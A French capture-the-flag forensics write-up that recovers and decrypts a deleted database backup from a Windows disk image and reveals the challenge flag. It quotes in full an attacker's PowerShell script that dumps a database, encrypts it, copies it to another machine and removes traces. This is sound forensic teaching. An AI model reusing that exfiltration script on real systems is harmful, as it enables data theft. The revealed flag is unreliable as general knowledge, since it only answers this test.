 # iDisk - 150 pts

![](https://i.imgur.com/x5K1k3R.png)

Dans ce challenge on nous file un fichier compressé contenant une image disque.

On va donc analyser l'image disque, pour cela on va extraire les dossiers qu'il contient avec testdisk.

```
$ testdisk forensic.dd
```

Maintenant relisons l'énnoncé, l'intrusion ce passe dans l'entreprise `ECORP`.

On va donc chercher dans le répertoire contenant tout les fichiers de l'image disque `forensic.dd`, un fichier contenant le nom `ECORP` :

```

$ grep -r ECORP .
Fichier binaire ./pagefile.sys correspondant
Fichier binaire ./Windows/WinSxS/amd64_microsoft-windows-a..ence-mitigations-c1_31bf3856ad364e35_10.0.17763.316_none_810c351a77dd1c84/sysmain.sdb correspondant
Fichier binaire ./Windows/WinSxS/amd64_microsoft-windows-a..ence-mitigations-c1_31bf3856ad364e35_10.0.17763.475_none_80ca572e780ea7fa/sysmain.sdb correspondant
./Windows/System32/backup.ps1:$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force


[...]
```

On a plusieurs fichiers contenant le nom ``ECORP``, dont un : `./Windows/System32/backup.ps1`, qui semble interessant.

On va par conséquence lire le contenu de celui-ci :

```
$ cat ./Windows/System32/backup.ps1
# Connect to the remote server 
$password = ConvertTo-SecureString "ECORP2021" -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ("root", $password)

$s = New-PSSession -ComputerName DESKTOP-GD806IG -Credential $Cred


# Backup the confidential database muahahaha
Invoke-Command -Session $s -ScriptBlock { Backup-SqlDatabase -ServerInstance "DESKTOP-GD806IG" -Database "pre_prod" -BackupFile "C:\Users\root\Documents\db_backup.bak" }

# Encrypt the dump
Invoke-Command -Session $s -ScriptBlock { cd "C:\Program Files\OpenSSL-Win64\bin"; .\openssl.exe aes-256-cbc -in C:\Users\root\Documents\db_backup.bak -out C:\Users\root\Documents\db_backup.bak.enc -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756 }

# Create a compressed archive of the backup
Invoke-Command -Session $s -ScriptBlock { C:\Users\root\Downloads\7z1900-extra\7za.exe a -v1m "C:\Users\root\Documents\db_backup.zip" "C:\Users\root\Documents\db_backup.bak.enc"}

# Download the archive
Invoke-Command -Session $s -ScriptBlock {$myPassword = ConvertTo-SecureString "Test1234" -AsPlainText -Force; $myCreds = New-Object System.Management.Automation.PSCredential ("DESKTOP-RD0QA0B\Skiddy", $myPassword); $mySession = New-PSSession -ComputerName "DESKTOP-RD0QA0B" -Credential $myCreds; Copy-Item -Path C:\Users\root\Documents\db_backup.zip* -Destination 'C:\Users\Skiddy\Music\Jazz' -ToSession $mySession }

# Copy the files to an external drive
cp C:\Users\Skiddy\Music\Jazz\db_backup.zip* E:\Backups

# Cleanup 
rm C:\Users\Skiddy\Music\Jazz\*

```

On peut voir grâce à ce script powershell, qu'un backup de la DB ``pre_prod`` à certainement était réalisé. Il se nommerait `db_backup`  et a été chiffré via openssl en AES 256 CBC, ayant pour IV : `48bb06a87601bcf63228f2e06dfe72b6` et pour Clé : `b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756`.

Malheureusement après avoir utiliser la commande ``find -name db_backup*`` à la racine du disque windows, aucun fichier de ce nom n'a était trouvé, tout simplement car celui-ci a été supprimé.

On va donc utiliser Autopsy pour tenter de retrouver le fichier supprimé :

![](https://i.imgur.com/C2SBzek.png)

On se rend compte que plusieurs fichiers ce nomme `db_backup.zip` avec un chiffre différent lui étant associé.

Le fichier backup principale à donc certainement était splité en 4 parties.

On va donc récupérer les 4 fichiers `db_backup.zip`.

Une fois cela fait il suffit de copier le contenu des 4 fichiers dans l'ordre croissant dans un seul fichier et unzip le fichier  : 

```
$ cat db_backup.zip.00* > db.zip

$ file db.zip
db: Zip archive data, at least v1.0 to extract

$ unzip db.zip 
Archive:  db.zip
 extracting: db_backup.bak.enc       

```

Une fois cela fait on voit que `db_backup` est chiffré, il sufft de le déchiffrer avec openssl et le faire avec le chiffrement : `AES 256 CBC` , l'IV : `48bb06a87601bcf63228f2e06dfe72b6` et la clé  : `b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756` puis chercher `DGA{` avec `grep`:

```
$ openssl aes-256-cbc -d -in db_backup.bak.enc -out db_backup.bak -iv 48bb06a87601bcf63228f2e06dfe72b6 -K b017d674c1cea5f5c7409573b5bff6d3677e6e8bc06c095d01b0a75dc0ad5756
$ strings db_backup.bak|grep DGA{
DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}}
```

Bingo, on peut valider le challenge avec le flag : `DGA{95ecd8f47dc647599e9d1f7a90974a997338cd48}` !!


